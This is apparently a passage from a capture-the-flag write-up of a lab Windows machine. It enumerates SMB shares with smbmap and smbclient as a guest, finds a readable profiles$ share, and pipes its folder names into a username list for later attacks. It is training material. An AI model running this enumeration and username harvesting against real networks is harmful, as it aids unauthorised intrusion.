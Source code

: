 Result:

```text
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	forensic        Disk      Forensic / Audit share.
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	profiles$       Disk      
	SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```

And try to get some more informations :

```shell
smbmap -u guest -H "$TARGET"
```

Result:

```text
[+] IP: 10.10.10.192:445	Name: 10.10.10.192        	Status: Authenticated
    Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	forensic                                          	NO ACCESS	Forensic / Audit share.
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	NO ACCESS	Logon server share 
	profiles$                                         	READ ONLY	
	SYSVOL                                            	NO ACCESS	Logon server share 
```

So the share `profiles$` is accessible as read-only.

```shell
smbmap -u guest -H "${TARGET}" -R "profiles\$"
```

Result [here](assets/smb_share_profiles.txt)

This share contains a list (around 300) of supposed home folders, such as :

```text
	dr--r--r--                0 Wed Jun  3 18:47:11 2020	ACheretei
	dr--r--r--                0 Wed Jun  3 18:47:11 2020	ACsonaki
	dr--r--r--                0 Wed Jun  3 18:47:11 2020	AHigchens
	dr--r--r--                0 Wed Jun  3 18:47:11 2020	AJaquemai
	dr--r--r--                0 Wed Jun  3 18:47:11 2020	AKlado
```

For later use, we generate usernames from the folder names :

```bash
smbclient -N "\\\\${TARGET}\\profiles\$" -c 'ls' | grep -E '^  [A-Z]*' | cut -d ' ' -f 3 > usernames.txt
```
